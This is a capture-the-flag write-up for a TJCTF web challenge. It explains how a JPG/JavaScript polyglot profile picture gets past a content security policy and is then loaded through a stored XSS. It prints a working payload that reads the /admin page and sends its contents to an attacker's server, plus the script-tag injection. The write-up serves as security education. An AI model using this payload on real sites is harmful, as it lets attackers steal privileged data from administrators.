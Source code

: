 Stupid Blog
===
We have a XSS injection in the description form. But because of content policy, we can't execute any Javascript.
We need to load a script from the server.
Using a crafted profile picture that has the JPG header we can load any JS code we want:
```
ÿØÿÛ=''; any JS code here...
```
As we can see, we have httpOnly flag, so we can't steal the cookie, in that way, we need to craft some js code to steal content of the /admin page where we will see the flag:
```
 ÿØÿÛ='';

 function loadDoc() {
   var xhttp = new XMLHttpRequest();
   xhttp.onreadystatechange= function() {
     if (this.readyState == 4 && this.status == 200) {
     document.location = "http://your web server/index.html?content=" + encodeURI(this.responseText);
     }
   };
   xhttp.open("GET", "admin", true);
   xhttp.send();
 }

 loadDoc();
```
Save this code as profile.jpg, upload it. Then, inject the following code into description:
```
<script charset='ISO-8859-1' src="/your_username/pfp"></script>
```
We need a custom charset because UTF will interpret the JPG header in a wrong way.
Now, report yourself to the admin and kboom, you have the flag.

You can run a web server like this `python -m SimpleHTTPServer 80` and don't forget about port forwarding.

tjctf{1m4g3_p0lygl0t_1s_w3ird}
